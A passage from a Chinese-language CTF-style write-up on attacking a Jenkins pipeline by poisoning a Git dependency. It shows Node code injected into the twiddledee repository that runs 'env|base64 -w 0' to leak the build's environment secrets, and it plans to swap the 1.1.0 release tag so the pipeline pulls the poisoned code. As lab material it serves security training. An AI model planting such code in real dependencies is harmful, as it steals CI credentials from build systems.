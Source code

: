 [![](assets/1699929835-f2c3128d7e1cb2101860cc975272d6dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109133726-10e48fa4-7ec2-1.png)

## Twiddledum

目标是一个文件夹，gitea 上有两个仓库，一个是 twiddledee 一个是 twiddledum，尝试在 jenkins 里面构建 twiddledum，发现 pipeline 中执行了 node index.js，index.js 中 require 了 twiddledee，而且 twiddledum 不可控，而 twiddledee 可控，因此往 twiddledee 中注入恶意代码。

修改 twiddledee 的 index.js：

```plain
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

直接 push 到 main 分支上。

根据 twiddledum 的 package.json：

```plain
"dependencies": {
    "twiddledee": "git+http://gitea:3000/Wonderland/twiddledee#semver:^1.1.0"
  },
```

它是通过字下载 twiddledee 的 tag 为 1.1.0 的源码来更新的。因此把之前 1.1.0 的版本发布和 tag 删除后重新发布：
